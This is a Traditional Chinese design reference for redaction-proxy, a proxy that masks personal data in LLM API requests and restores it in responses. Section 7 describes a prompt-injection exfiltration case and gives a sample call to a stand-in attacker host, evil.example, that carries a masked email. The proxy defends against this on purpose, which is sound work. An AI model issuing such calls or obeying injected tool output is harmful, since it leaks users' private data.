


# redaction-proxy 技術細節

這份文件是給要修改、審查或整合 redaction-proxy 的人看的完整技術參考。一般使用請先讀 [README](../README.zh-TW.md)。

## 目錄

1. [架構](#1-架構)
2. [核心 API](#2-核心-api)
3. [偵測規則](#3-偵測規則)
4. [遮罩順序與提示快取](#4-遮罩順序與提示快取)
5. [不遮就轉送的欄位](#5-不遮就轉送的欄位)
6. [拒絕與錯誤狀態碼](#6-拒絕與錯誤狀態碼)
7. [串流還原](#7-串流還原)
8. [對話內編號與 previous_response_id](#8-對話內編號與-previous_response_id)
9. [控制字元篩檢](#9-控制字元篩檢)
10. [日誌](#10-日誌)
11. [威脅模型](#11-威脅模型)
12. [完整設定](#12-完整設定)
13. [測試](#13-測試)
14. [誤遮率量測方法](#14-誤遮率量測方法)
15. [公開前尚待完成](#15-公開前尚待完成)
16. [人名模型（實驗性）](#16-人名模型實驗性)
17. [完整限制清單](#17-完整限制清單)
18. [實測數字](#18-實測數字)
19. [常見問題](#19-常見問題)
20. [README 圖片與影片](#20-readme-圖片與影片)

## 1. 架構

| 目錄 | 內容 |
| --- | --- |
| `src/core/` | 遮罩核心：規則、佔位符引擎、嚴格與串流還原。只依賴 Node 標準函式庫，沒有宿主型別。 |
| `src/core/rules/` | 規則偵測器 `RulesDetector`：各規則、需自行啟用的國際規則（`international.ts`）、檢查碼演算法（`checksum.ts`）、NFKC 投影、百分比解碼投影、同值擴散、輸入篩檢。 |
| `src/proxy/config.ts` | 設定檔載入與驗證。 |
| `src/proxy/server.ts` | HTTP 代理：收集可遮字串、遮罩、外洩檢查、轉送、JSON 與 SSE 還原。 |
| `src/cli.ts` | 命令列 `redaction-proxy [--config path]`；`--demo` 跑免金鑰示範（`src/demo.ts`，即 `pnpm demo`）。 |
| `bench/` | 誤遮率量測（`pnpm bench`）。 |

DeepSeek Harness 透過 dsh-addons 的 redaction 套件以 git submodule（`dsh-addons/vendor/redaction-proxy`）使用這份核心；核心只在這個倉庫修改。[dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router) 目前還有自己的串流還原器，未來預計統一到這裡的 `createStreamRestorer`。

和 dsh-privacy-router 的差別：

| | redaction-proxy（本倉庫） | [dsh-privacy-router](https://github.com/PersonalAssistanceHsin/dsh-privacy-router) |
| --- | --- | --- |
| 形式 | 獨立的 HTTP 代理 | dsh 的外掛 |
| 用戶端 | 任何 OpenAI 或 Anthropic 相容用戶端 | 只限 dsh |
| 路由 | 不路由：每個請求都遮罩後送往上游 | 每一輪決定送本機模型還是雲端 |
| 本機模型 | 不需要 | 需要 |
| 遮罩核心 | 在這裡（`src/core/`） | dsh-addons 的 redaction 套件以 git submodule 引用這份核心 |
| 串流還原 | `src/core/restore.ts` | 仍有自己的還原器，未來預計統一 |

每個請求的基本行為：

- 同一個值在同一個請求中一律用同一個佔位符。
- 代理不存對話狀態。每次請求都從完整歷史重新編號，所以同一段對話每一輪的編號一致，上游的提示快取照常生效。
- 遮罩後若在請求中仍找得到偵測到的值，代理會拒絕送出（422），而不是冒險外洩。規則偵測到的值在任何位置都算，連黏在較長字串裡也算（`tel0912345678`）。[人名模型](#16-人名模型實驗性)找到的值若是以空格分詞的文字，只算完整單字，所以 `Leeds` 裡的 `Lee` 不算外洩；中文、日文、韓文的值在任何位置都算。
- 金鑰照常由用戶端送出，代理原樣轉送，從不儲存。

一個請求的處理順序（`server.ts` 的 `forward`）：



## 2. 核心 API

`src/core/index.ts` 匯出：

| 名稱 | 用途 |
| --- | --- |
| `mask(detector, texts, index)` | 遮罩一組具位置的字串，回傳遮罩後字串、新的 span、已套用的 span、保留的 id，以及記憶體中的 `registry`。 |
| `restore(output, registry)` | 嚴格還原：未綁定的 id 或不成對的分隔符會讓整段失敗（`unknown-placeholder` 或 `malformed-placeholder`）。 |
| `createStreamRestorer(registry, { json })` | 寬鬆的串流還原器，永不失敗，詳見第 7 節。 |
| `restoreLenient` | 一次性的寬鬆還原。 |
| `RulesDetector`、`resolveRulesConfig`、`RULE_NAMES`、`DEFAULT_RULE_NAMES`、`INTERNATIONAL_RULE_NAMES`、`DEFAULT_ALLOWLIST`、`DETECTOR_VERSION`、`INTERNATIONAL_RULES_VERSION` | 規則偵測器與其設定。`DETECTOR_VERSION` 目前是 `rules-6`；啟用任一國際規則時，偵測器版本是 `rules-6+intl-1`。 |
| `isTaiwanNationalId` | 身分證與居留證檢查碼驗證。 |
| `screenText` | 輸入篩檢，詳見第 9 節。 |
| `emptyRedactionIndex`、`foldRedactionScan` | 給需要持久化掃描結果的宿主使用的 span 索引。 |
| `placeholder`、`applySpans`、`PLACEHOLDER_OPEN`、`PLACEHOLDER_CLOSE`、`REDACTION_ID_PATTERN` | 佔位符格式工具。id 格式為 `^[A-Z][A-Z0-9]*_[1-9]\d*$`。 |
| `RedactionError` | 遮罩拒絕輸入時拋出，`code` 為 `unsupported`、`conflict` 或 `policy`。 |

`RedactionError` 的三種代碼：

| 代碼 | 意義 |
| --- | --- |
| `unsupported` | 文字中已含佔位符分隔符 `⟦` 或 `⟧`。 |
| `conflict` | 記錄的 span 對不上目前文字、兩個原始值共用一個 id，或已綁定 id 的字面形式出現在原文中。 |
| `policy` | 索引是在另一個偵測政策下記錄的，類別集合不能在 session 中途擴充。 |

錯誤訊息只含位置、id 與摘要值，絕不含原始值。`registry` 只存在記憶體，從不序列化；每次 `mask` 都從收到的文字重建。代理本身每次都傳入 `emptyRedactionIndex()`，不保存索引。

## 3. 偵測規則

| 規則 | 類別 | 細節 |
| --- | --- | --- |
| `email` | `EMAIL` | 以 `@` 為錨點、有上限地向兩側展開。也接受防爬寫法：`＠`、`(at)`、`[at]`，以及網域中的 `[dot]`、`(dot)`；這些寫法要求頂級網域是兩字母國碼或常見 gTLD（`com`、`org`、`dev`、`test` 等）。`@`、`＠` 必須緊貼前後兩段；`(at)`、`[at]` 兩側可有空白（不跨行），此時頂級網域須全小寫、本地部分須是以 `.`、`_`、`+` 連接的字（`wang.yichun`）且不以 `self.`、`this.` 等程式根開頭。`name @ domain`（`@` 兩側有空白）與單獨的 ` at ` **不遮**：shell 提示字元（`root @ web01.example.com`）、帳號標記（`cc @ alice.me`、`meet @ cafe.tw`）、英文散文（`socket.io at github.com`、`contact fly.io at community.fly.io`）與矩陣程式碼（`layer.weight @ state.dx`）在字面上與地址無法區分；頂級網域白名單與關鍵詞閘門都試過（WO-6 第 3、4 輪），前者擋不住誤遮、後者使召回掉到 41/54。這類 email 只有隱私分類器把關。 |
| `user-path` | `PATH` | 只遮家目錄前綴（`/Users/x`、`/home/x`、`C:\Users\x`、`~x/`），含 JSON 跳脫形式；路徑其餘部分保持可讀。 |
| `api-key` | `KEY` | PEM、AWS `AKIA`/`ASIA`、GitHub `ghp_` 系列、`sk-`、Slack `xox` 與 webhook、Google `AIza`、JWT、`Authorization`/`Bearer`、URL 中的帳密、`curl -u`、`--password x`，以及鍵名代表憑證的 `key=value` 指派（含中英文關鍵詞）。 |
| `tw-national-id` | `TWID` | 身分證字號（第二碼 1/2）與居留證號（第二碼 8/9），**驗證檢查碼**。也接受字母後（`A 123456789`）或第四字元後（`A123-456789`）的一個空白或連字號；其他位置的分隔不算。 |
| `phone` | `PHONE` | 手機 `09xx-xxx-xxx`、`09-xxxx-xxxx`、`09 xxxx xxxx`（同一種分隔符）與 `+886` 形式不需關鍵詞，前後緊鄰英文字母或數字時不遮（雜湊值 `…e5a0912345678dd…`、`abc0912345678`），中間四碼像年份（`09-2026-1005`）時視為日期不遮；市話（`02-2345-6789`、`(02)2345-6789`）需在「電話」、tel 等關鍵詞之後。 |
| `tax-id` | `TAXID` | 「統一編號」、「統編」、tax id、VAT 等關鍵詞後的 8 碼數字。中間有一個空白或連字號（`統編 3208-5109`）時須通過統編檢查碼。同一段數字也符合市話關鍵詞（`聯絡…統編：02086968`）時報為 `TAXID`。 |
| `card` | `CARD` | 13–19 碼、**Luhn 驗證**、檢查發卡機構前綴，並把視窗錨定在數字組邊界，避免遮到時間戳與 snowflake id。 |
| `ip` | `IP` | RFC 1918 私有位址，並檢查每段數值。 |
| `host` | `HOST` | `.local`、`.lan`、`.internal` 主機名。 |
| `entropy` | `ENTROPY` | 32 字元以上的高熵 hex，或大小寫與數字混合的 base64；`commit`、`sha`、`hash` 等字旁的雜湊放過。緊鄰憑證字眼的高熵字串改報為 `KEY`。 |
| `terms` | `TERM` | 你指定的字面值，在 NFKC 投影上不分大小寫比對，也比對 `\uXXXX` 跳脫形式。字面值在字母、數字、中日韓字元交界與每個中日韓字元之間可多或少一個分隔符（空白、`-`、`_`、`‧`、`・`、`·`），所以 `星河計畫` 也比對 `星河 計畫`、`星河-計畫`，`NIMBUS-7` 也比對 `NIMBUS 7`、`NIMBUS_7`、`nimbus7`。同一個 term 的各種寫法共用一個佔位符（`identityKey`），還原時寫回該次請求第一次綁定的寫法。 |
| `projectNames` | `PROJECT` | 同上，另一個類別。 |

### 國際規則

以下 16 條規則偵測臺灣以外核發的識別碼。核心函式庫預設**不啟用**（`DEFAULT_RULE_NAMES` 只有上表 10 條），代理預設啟用 `e164-phone` 以外的 15 條（第 12 節）。有檢查碼的都驗證；沒有檢查碼、或裸數字看起來和任何日誌 id 一樣的，只在分組寫法或關鍵詞後面才遮。

| 規則 | 類別 | 驗證與條件 |
| --- | --- | --- |
| `iban` | `IBAN` | ISO 13616 mod-97，且長度符合 SWIFT 登錄表中該國的長度。連續寫法或每 4 字元一個空格；只認大寫。 |
| `e164-phone` | `PHONE` | `+`、已分配的 ITU 國碼、含國碼共 10–15 位數；數字間可有一個空格、點或連字號，區碼可加括號（`+1 (415) 555-0132`）。前面是英數字、`+`、`)`、`]`、`.` 時不算（`1e+10`、`f(x)+12345678901`）。沒有檢查碼，且 diff 的 `+` 標記會讓每一行以數字或時間戳開頭的新增行看起來像國際電話，所以代理也預設不啟用。 |
| `eu-vat` | `TAXID` | `AT`、`BE`、`DE`、`ES`、`FR`、`IT`、`NL`、`PL` 前綴，各國檢查碼（DE 為 ISO 7064 MOD 11,10，FR 為 SIREN 金鑰，IT 為 Luhn，NL 為十一檢驗或 mod-97，BE 為 mod-97，PL 為加權 mod 11，AT 為 UID 檢查碼，ES 為 DNI/NIE 字母）。 |
| `us-ssn` | `NATID` | `123-45-6789` 或 `123 45 6789`（同一種分隔符），或 `SSN`、`social security` 等關鍵詞後的 9 碼。排除 000、666、900–999 區號，00 組號、0000 序號。沒有檢查碼。 |
| `us-itin` | `NATID` | 同上的寫法，區號 9xx 且組號在 50–65、70–88、90–92、94–99。 |
| `uk-nino` | `NATID` | 兩個前綴字母（排除 D、F、I、Q、U、V，第二字不為 O，排除 BG、GB、KN、NK、NT、TN、ZZ）、6 碼、A–D 字尾；連寫或 `AB 12 34 56 C`。沒有檢查碼。 |
| `de-tax-id` | `NATID` | 只在 `Steuer-ID`、`IdNr`、`TIN` 等關鍵詞後。11 碼不以 0 開頭、前 10 碼恰有一個數字出現 2 或 3 次（不連續 3 次）、ISO 7064 MOD 11,10。 |
| `fr-nir` | `NATID` | Carte Vitale 的空格寫法（`1 85 05 78 006 084 91`），或 `NIR`、`INSEE`、`sécurité sociale` 等關鍵詞後的 15 碼。金鑰為 97 減去前 13 碼除以 97 的餘數，科西嘉 `2A`、`2B` 照規定換算。 |
| `es-dni` | `NATID` | DNI（8 碼加字母）與 NIE（`X`、`Y`、`Z` 加 7 碼加字母），字母為 mod 23 檢查字母。 |
| `it-fiscal-code` | `NATID` | 16 字元結構（含 omocodia 替代字母）與奇偶位檢查字元。 |
| `cn-resident-id` | `NATID` | 18 碼：已知省級代碼、真實出生日期（1900–2099）、ISO 7064 MOD 11-2 檢查字元（`X` 也可小寫）。 |
| `cn-mobile` | `PHONE` | `138-1234-5678`、`138 1234 5678`（同一種分隔符）、`+86` 形式，或「手机」、「电话」、「联系」等關鍵詞後的 11 碼。 |
| `hk-id` | `NATID` | `A123456(3)` 括號寫法，或 `HKID`、`身份證` 等關鍵詞後不加括號的寫法；mod 11 檢查字元。 |
| `jp-my-number` | `NATID` | 只在「マイナンバー」、「個人番号」、`my number` 後。12 碼，可 4-4-4 分組，檢查碼驗證。 |
| `jp-mobile` | `PHONE` | `090-1234-5678`（同一種分隔符）、`+81 90-1234-5678`，或「携帯」、tel 等關鍵詞後的 11 碼。 |
| `kr-rrn` | `NATID` | `YYMMDD-NNNNNNN`：性別與世紀碼 1–8、真實出生日期、加權 mod 11 檢查碼。**2020 年 10 月以後核發**的號碼末段是隨機數字、沒有檢查碼，偵測不到。 |

- **一個類別給所有外國身分證號。** 臺灣以外的國民身分證號、稅籍號碼都用 `NATID`；模型不需要知道是哪一國，類別越少，外洩的資訊越少。IBAN 用新類別 `IBAN`，國際電話與手機沿用 `PHONE`，VAT 沿用 `TAXID`。
- **不做 SWIFT/BIC。** BIC 沒有檢查碼，形式是 8 或 11 個大寫英數字，和常數名稱（`ABSTRACT`、`FUNCTION`）無法區分；它識別的是銀行，不是個人。
- **卡號規則不變。** `card` 已涵蓋 Visa、Mastercard、Amex、JCB、銀聯、Discover、Diners 的前綴；俄羅斯 Mir（2200–2204）不在其中。加入它會改變預設規則的結果，也就改變預設的政策摘要，所以暫不加入。
- **與卡號重疊時。** 一個 18 碼的中國身分證號若同時通過 Luhn 與發卡機構前綴，啟用國際規則時報為 `NATID`，預設規則下報為 `CARD`：國際規則在卡號規則之前提出，同長度同優先順序時先提出者勝出。
- **百分比編碼與全形。** 國際規則與其他規則一樣在 NFKC 投影與百分比解碼投影上執行，所以全形 IBAN、`tel=%2B44%2020…` 也抓得到。國際規則**沒有**「緊接在無效 `%XX` 之後」的左邊界變體：`%E6+44…` 這類截斷編碼後面的值不偵測。

- **NFKC 投影。** 每條規則也會在去除零寬字元與軟連字號（U+00AD）後的 NFKC 投影上再跑一次，所以全形數字（`０９１２３４５６７８`）、全形 `＠`、`ali\u200bce@…` 都抓得到。
- **百分比解碼投影。** 每條規則（包括 `terms`）也會在百分比解碼後的文字上再跑一次。每一段連續的 `%XX` 逐個 UTF-8 字元解碼：合法的位元組序列解碼成字元，無法開始或完成合法序列的 `%XX`（截斷的 `%E6`、單獨的 `%FF`、過長編碼、代理碼位）照原樣保留並一對一對應，同一段其餘部分照常解碼；`+` 不當成空格。解碼後的文字再做一次去除零寬字元與軟連字號的 NFKC 投影，兩層對應組合後仍指回編碼原文，所以 `lin%E2%80%8B.yating%40…` 與百分比編碼的全形數字也抓得到。偵測到的範圍對應回整段編碼原文，佔位符蓋住編碼原文，登錄表綁定的也是編碼原文，所以還原與工具參數都逐位元組寫回原樣（大小寫混用的 `%2f` 也一樣）。編碼過的 term 不與未編碼寫法共用佔位符，各自還原成自己的寫法。只解碼一層：編碼兩次的值（`%2540`）不偵測。表單編碼查詢中代表空格的 `+`（`星河+計畫`）不偵測。需要左側不是英數字、且以數字開頭的規則（手機號碼 `PHONE_MOBILE`、`PHONE_MOBILE_SPLIT`、`PHONE_KEYWORD`、統一編號、信用卡號、私有 IP）與金鑰前綴把緊接在前的 `%80`–`%FF` 視為邊界，所以 `%E6%2B886…`、`%E609-1234-5678`、`tel%3A%E602-…`、`%c0sk-…` 抓得到；`%00`–`%7F` 一定會解碼，`%41%42` 後面的數字仍算同一個字詞。同值擴散的左邊界也一樣。以字母開頭的身分證字號沒有這個邊界：Big5 與 Shift-JIS 中緊接在前導位元組後面的 ASCII 字母是該字的尾位元組（`%A4A` 是「乙」、`%83P%81%5B%83X` 是「ケース」），所以緊接在無效 `%XX` 後面的身分證字號（`%E6A123456789`）不偵測。金鑰前綴保留這個邊界，所以尾位元組為 `A` 的 Shift-JIS 字元加上 `KIA…`（`%83AKIA…`）會遮成形似金鑰的範圍。URL 裡經 base64 編碼的值不解碼；隱私路由只在工具輸出中解碼 base64。
- **同值擴散。** 一個值被偵測到之後，它在同一請求中的其他出現位置也會用同一個佔位符遮掉（`propagate`）。
- **允許清單。** `allowlist` 中的字面值不會被任何內建規則遮罩，預設是 `git@github.com` 與 `noreply@github.com`。設為空陣列就什麼都不放過。
- **未偵測的拆開寫法。** 點後加空格的私有 IP（`192. 168. 1. 2`）、被空格或換行拆開的金鑰（只有高熵規則可能抓到片段），以及寫成 `name @ domain`（有空白）或單獨用 ` at ` 的 email 不遮（只有分類器把關）。
- **保留 id。** 原文中若出現字面的 `EMAIL_3`（某個政策類別的 `CATEGORY_n`），這個 id 會被保留、不分配給偵測到的值。

## 4. 遮罩順序與提示快取

- **用佔位符，不用假值。** 每個不同的值得到一個 `⟦CATEGORY_n⟧`。以假值替換（「數位分身」）經過實測後被否決：模型逐字保留佔位符的比例是 100%，假值只有 75%；假值還造成無法還原的靜默錯誤（18 段對話中 5 段）。
- **編號依文字順序。** `collectSlots` 在請求最上層先收集 `tools`、`functions`、`system`、`instructions`，再依 JSON 鍵順序收集其餘欄位。
- **前綴逐位元組穩定。** 用戶端每次都重送完整歷史，所以只增不改的對話中，同一個值每一輪都得到同一個佔位符，遮罩後的前綴不變，上游的提示快取照常生效。
- **會打破穩定的情況。** 後面的訊息若含字面的 `EMAIL_3`，這個 id 會被保留，可能讓在它之後首次出現的值重新編號。用戶端若改寫了較早的歷史，前綴也會跟著改變。

## 5. 不遮就轉送的欄位

請求中以下鍵的字串值不會被遮（`SKIP_MASK`）：

| 類型 | 鍵 |
| --- | --- |
| 識別碼與列舉 | `model`、`role`、`type`、`id`、`call_id`、`tool_call_id`、`tool_use_id`、`previous_response_id`、`status`、`service_tier`、`reasoning_effort`、`tool_choice`、`stop`、`format`、`cache_control` |
| API 精確比對的名稱 | `name`（工具與參與者名稱） |
| 二進位與檔案 | `data`、`media_type`、`url`、`image_url`、`file_id`、`file_data` |
| 簽章或加密的模型狀態 | `signature`、`thinking`、`encrypted_content` |
| 其他 | `metadata` |

回應中 `signature`、`thinking`、`data`、`encrypted_content` 的字串照模型送出的原樣保留（`SKIP_RESTORE`），因為用戶端之後要逐位元組回送。因此 Anthropic 的 thinking 內容會帶著佔位符顯示。

`arguments` 與 `partial_json` 是 JSON 文字，還原時原始值會以 JSON 跳脫寫入（`JSON_TEXT`）。

## 6. 拒絕與錯誤狀態碼

| 狀態碼 | 何時 | 訊息內容 |
| --- | --- | --- |
| 400 | 遮罩路由的請求本文不是 JSON。 | `request body is not JSON` |
| 403 | 帶有 `Origin`，但它既不是本機的 `http(s)` 來源，也不在 `allowedOrigins` 中（網頁發出的請求，含 `Origin: null`）；或未設 `authToken` 且 `Host` 不是本機名稱（`localhost`、`127.0.0.0/8`、`[::1]`；DNS rebinding）。在任何路由檢查之前。 | 固定訊息 |
| 401 | 設了 `authToken`，但請求沒帶 `x-redaction-proxy-token`，或值不符。以 SHA-256 摘要做固定時間比較。帶正確權杖時不檢查 `Host`。 | 固定訊息 |
| 204 | 允許的來源發出的 CORS 預檢（`OPTIONS` 帶 `Access-Control-Request-Method`）。不需權杖，不轉送。 | 無本文 |
| 413 | 請求本文超過 64 MiB。 | 上限 |
| 404 | POST 到代理不遮罩的路由（例如 `/v1/embeddings`），或 GET、POST 以外的方法。 | 方法與路徑 |
| 422 | `screen: "refuse"` 且某段文字含控制字元、U+FFFD、孤立 surrogate 或 `⟦`/`⟧`。 | JSON 路徑與字元類別 |
| 422 | **送出前外洩檢查**：遮罩後請求的任一字串或鍵中，仍找得到某個偵測到的原始值（原樣或 JSON 跳脫形式）。規則值在任何位置都算。名稱模型的值：以空格分詞的文字只算完整單字（`Leeds` 裡的 `Lee` 不算），中日韓文字在任何位置都算；只有一個字的模型值不檢查。 | 最多 5 個欄位路徑 |
| 422 | 帶 `previous_response_id`，但代理沒有它的先前輸入（重啟、被擠出或從未經過代理）。 | 固定訊息 |
| 422 | 與 `previous_response_id` 先前輸入合併後 `mask` 拋出 `RedactionError`。 | 錯誤代碼 |
| 502 | 連不上上游。 | 網路錯誤代碼 |

外洩檢查會在以下情況觸發：偵測到的值也出現在不遮的欄位（第 5 節），或該值出現在較長的詞中間而未被遮。只出現在不遮欄位或物件鍵中、別處沒有出現的值，不會被偵測，照原樣送出。拒絕訊息只指出欄位，絕不含值：本身含有偵測值的鍵，以及不是小寫識別字（`[a-z][a-z0-9_]*`，最多 40 字元）的鍵，都寫成 `<key>`。拒絕時請求不會送出。

錯誤回應本文的格式：`{"error":{"type":"redaction_proxy_error","message":"..."}}`。

路由：

| 路由 | 處理 | 上游 |
| --- | --- | --- |
| `POST /v1/chat/completions` | 遮罩與還原 | OpenAI 上游 |
| `POST /v1/responses` | 遮罩與還原，記住回應 id | OpenAI 上游 |
| `POST /v1/messages` | 遮罩與還原 | Anthropic 上游 |
| `POST /v1/messages/count_tokens` | 遮罩（回應沒有佔位符可還原） | Anthropic 上游 |
| `GET` 任何路徑 | 原樣轉送 | 帶 `x-api-key` 或 `anthropic-version` 標頭時走 Anthropic，否則走 OpenAI |
| `OPTIONS`（CORS 預檢） | 允許的來源回 204，不轉送 | — |

上游 URL 為設定的 base 加上用戶端的原始路徑與查詢字串。用戶端的 `authorization`、`x-api-key`、`anthropic-*` 等標頭原樣轉送，代理從不儲存。`host`、`connection`、`content-length`、`content-encoding`、`accept-encoding` 等逐跳標頭不轉送，送往上游時固定 `accept-encoding: identity`。`x-redaction-proxy-token` 不轉送。上游回應的 `access-control-*` 標頭不轉回；來自允許來源的請求，由代理自己回 `access-control-allow-origin: <該來源>`。用戶端斷線時，代理會中止上游請求。

## 7. 串流還原

每個串流文字欄位各有一個 `StreamRestorer`：

- **只扣住可能的佔位符前綴。** 看到 `⟦` 之後，若後續文字仍可能長成 `CATEGORY_n⟧`，就先扣住；最多扣 64 個字元（`HELD_MAX`），超過就當一般文字放出。其餘文字立即送出。
- **跨塊只還原一次。** 佔位符被切成任意多段也只會還原一次。
- **永不失敗。** 未綁定的 id（模型編出來的）保留為字面佔位符並計入 `unknown`；不成佔位符的分隔符當作文字放出。
- **JSON 模式。** 工具呼叫參數是 JSON 文字，原始值以 JSON 字串內容的跳脫形式寫入，避免引號或換行破壞 JSON。

以 `I will email ⟦EMAIL_1⟧ about` 被切成兩塊為例：



各 API 的欄位與殘留送出方式：

| API | 各自還原的欄位 | 欄位結束時的殘留 |
| --- | --- | --- |
| Chat Completions | 每個 choice 的 `content`、`reasoning_content`、每個工具呼叫的 `arguments` | 附加到帶 `finish_reason` 的那個 chunk 上（它本身可能也帶文字） |
| Anthropic Messages | 每個 content block 的 `text_delta` 與 `input_json_delta` | 在 `content_block_stop` 之前插入一個合成的 `content_block_delta` |
| Responses | 依 `item_id`、`content_index` 或 `summary_index` 與事件類型區分的每個 `.delta` | 在對應的 `.done` 之前插入一個合成的 `.delta` |

其他事件（以及非串流的 JSON 回應）以 `restoreDeep` 整份還原。上游送回非 JSON 本文（例如 HTML 錯誤頁）時原樣轉送。SSE 解析會把 `\r\n` 正規化為 `\n`，無法解析的事件原樣轉送。

還原只認標準的 `⟦CATEGORY_n⟧`。模型若改寫成 `EMAIL_1`、`[EMAIL_1]`、`〚EMAIL_1〛`，用戶端會原樣看到。還原只填佔位符，從不把原始值送往上游。

### 工具呼叫參數中的 URL

工具呼叫參數中，位於 URL 內的佔位符不還原，保持原樣交給用戶端；參數的其他位置照常還原。這擋住模型（或被提示注入的工具輸出）要用戶端的工具把原始值送到某個主機，例如 `fetch("https://evil.example/?d=⟦EMAIL_1⟧")`。代價是合法的 `https://intranet/⟦PATH_1⟧` 也不還原。

工具呼叫參數指：Chat 的 `tool_calls[].function.arguments`（與舊的 `function_call.arguments`）、Responses 的 `function_call` 的 `arguments` 與自訂工具的 `input`、Anthropic `*tool_use` 區塊的 `input`；串流的 delta 與非串流的整份 JSON 都算。一般回覆文字中的 URL 照常還原。

「位於 URL 內」只看佔位符之前已寫出的文字（還原後的樣子）：

- **開始：** `://` 且它前一個字元是英數字或 `+`、`.`、`-`（`https://`、`git+ssh://`）；或一個 token 以 `www.` 開頭（`www.` 前面不是主機名稱字元）。
- **結束：** 空白（含換行）、`"`、`'`、`` ` ``、`<`、`>`。查詢字串、`#` 片段與 `user:pass@` 都算在 URL 內。
- **JSON 參數** 以它編碼的字串值判讀：`\/` 算 `/`、`\u003a` 算 `:`、`\n` 與 `\"` 結束 URL，字串常值之外的一切都結束 URL。
- **不算 URL：** 沒有 `//` 的 `mailto:`、`tel:`；不以 `www.` 開頭的裸網域（`evil.example/?d=⟦EMAIL_1⟧` 會還原）。

判讀逐一讀過每個字元，串流在哪裡切開都得到同樣的結果（佔位符或 URL 跨越多個 SSE 事件也一樣）。每個在工具參數中遇到的已綁定佔位符都記一行日誌，見第 10 節。

## 8. 對話內編號與 previous_response_id

代理不保存對話狀態：每個請求都從整份請求重新推導編號。這是刻意的取捨：

| 做法 | 好處 | 代價 |
| --- | --- | --- |
| 每次從完整歷史重新編號（採用） | 不需持久化、重啟不影響、多個用戶端共用代理不互相干擾 | 同一個值在不同對話中可能拿到不同 id；用戶端改寫早期歷史會改變編號 |
| 在伺服器端保存每段對話的對照表 | 編號跨請求固定 | 需要辨識對話、需要儲存原始值、重啟或多行程時要同步 |

例外是 Responses API 的接續請求：帶 `previous_response_id` 的請求不重送歷史。代理在每個成功的 Responses 回應後，把該請求的**原始**輸入文字存在行程記憶體中、以回應 id 為鍵（先進先出，最多 256 個）。接續請求時，先把存下的先前輸入放在前面一起遮罩，所以編號與先前輪次一致；日誌的遮罩計數只算這次請求新送出的部分。

代價：

- 這些原始文字留在代理的記憶體中，直到被擠出。
- 代理重啟、或接續的 id 已被擠出後，接續請求以 422 拒絕。若照常轉送，這次請求的編號會把上游記得的舊佔位符（例如指向 A 的 `⟦EMAIL_1⟧`）綁到這次的另一個值 B，靜默還原成錯的值。
- 存下的文字只以回應 id 為鍵，不分用戶端：知道某個回應 id 的本機呼叫者，可以讓那段對話的原始值進入自己請求的對照表。

## 9. 控制字元篩檢

規則無法判讀控制字元、U+FFFD、孤立 surrogate；而 `⟦`、`⟧` 會與佔位符混淆。工具輸出（終端跳脫碼、二進位雜訊）與用戶端回送的未還原佔位符常含這些字元。`screen` 決定怎麼處理：

| 模式 | 行為 |
| --- | --- |
| `replace`（預設） | U+0000–U+001F（tab、換行、CR 除外）換成對應的 Control Pictures 字元（例如 ESC 變 `␛`），U+007F 變 `␡`；C1 控制字元、U+FFFD、孤立 surrogate 變 `␦`；`⟦`、`⟧` 變 `⟪`、`⟫`。上游收到的文字因此與原文不同。 |
| `refuse` | 以 `screenText` 檢查，並檢查 `⟦`、`⟧`；有任一就以 422 拒絕整個請求，訊息含 JSON 路徑與字元類別。 |

## 10. 日誌

